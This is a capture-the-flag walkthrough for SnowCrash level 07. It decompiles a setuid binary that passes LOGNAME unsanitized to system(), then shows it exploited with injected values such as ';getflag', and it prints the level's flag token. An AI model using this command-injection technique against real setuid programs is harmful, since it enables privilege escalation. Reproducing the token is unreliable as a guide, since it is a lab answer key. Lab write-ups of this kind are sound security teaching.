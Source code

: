 # Level 07

Level 07 contains a setuid binary on the folder, running it prints the following:

```bash
level07@SnowCrash:~$ ls -l level07
-rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07
level07@SnowCrash:~$ ./level07
level07
level07@SnowCrash:~$
```

let's copy it to our machine and open it with BinaryNinja, we can see the main function runs the command `echo` with the first argument from environement variable `LOGNAME`
 


```c
08048514  int32_t main(int32_t argc, char** argv, char** envp)
0804851d      gid_t eax = getegid()
08048526      uid_t eax_1 = geteuid()
08048546      setresgid(rgid: eax, egid: eax, sgid: eax)
08048562      setresuid(ruid: eax_1, euid: eax_1, suid: eax_1)
08048567      char* var_1c = nullptr
0804858e      asprintf(string_ptr: &var_1c, format: "/bin/echo %s ", getenv(name: "LOGNAME"))
080485a0      return system(line: var_1c)
```

the problem is that binary inserts the value of `LOGNAME` directly into the command without any sanitization, this means that we can control the command that will be executed by setting the `LOGNAME` variable to a command of our choice.

```bash
level07@SnowCrash:~$ LOGNAME=';id' ./level07

uid=3007(flag07) gid=2007(level07) groups=3007(flag07),100(users),2007(level07)
level07@SnowCrash:~$ LOGNAME=';getflag' ./level07

Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
level07@SnowCrash:~$
```